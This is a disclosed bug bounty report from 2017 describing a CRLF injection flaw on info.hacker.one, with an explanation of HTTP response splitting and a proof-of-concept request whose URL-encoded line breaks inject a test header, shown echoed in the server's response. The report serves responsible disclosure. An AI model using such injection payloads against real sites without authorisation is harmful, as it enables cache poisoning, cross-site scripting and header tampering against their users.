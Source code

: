 # CRLF injection in info.hacker.one

## Report Details
- **Report ID**: 217058
- **URL**: https://hackerone.com/reports/217058
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-03-29T18:19:16.560Z
- **Disclosed**: 2017-05-03T17:06:18.996Z

## Reporter
- **Username**: thalaivarsubu
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
Vulnerable URL:
info.hacker.one

Vulnerability description
This script is possibly vulnerable to CRLF injection attacks. 

HTTP headers have the structure "Key: Value", where each line is separated by the CRLF combination. If the user input is injected into the value section without properly escaping/removing CRLF characters it is possible to alter the HTTP headers structure.
HTTP Response Splitting is a new application attack technique which enables various new attacks such as web cache poisoning, cross user defacement, hijacking pages with sensitive user information and cross-site scripting (XSS). The attacker sends a single HTTP request that forces the web server to form an output stream, which is then interpreted by the target as two HTTP responses instead of one response.


URI was set to headername: headervalue
Injected header found: 

headername: headervalue


Request
GET /%0d%0a%09headername:%20headervalue HTTP/1.1
Host: info.hacker.one
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21
Accept: */*

Response
HTTP/1.1 301 Moved Permanently
Date: Wed, 29 Mar 2017 18:11:47 GMT
Location: http://info.hacker.one/
headername: headervalue/
P3P: CP="This is not a privacy policy."
X-Powered-By: Page Server II 2.1.117 bab5965
X-Server-Instance: ps2-07ebf0a99d.ap-southeast-1.unbounce.net
Content-Length: 0
Connection: keep-alive




## Attachments
No attachments
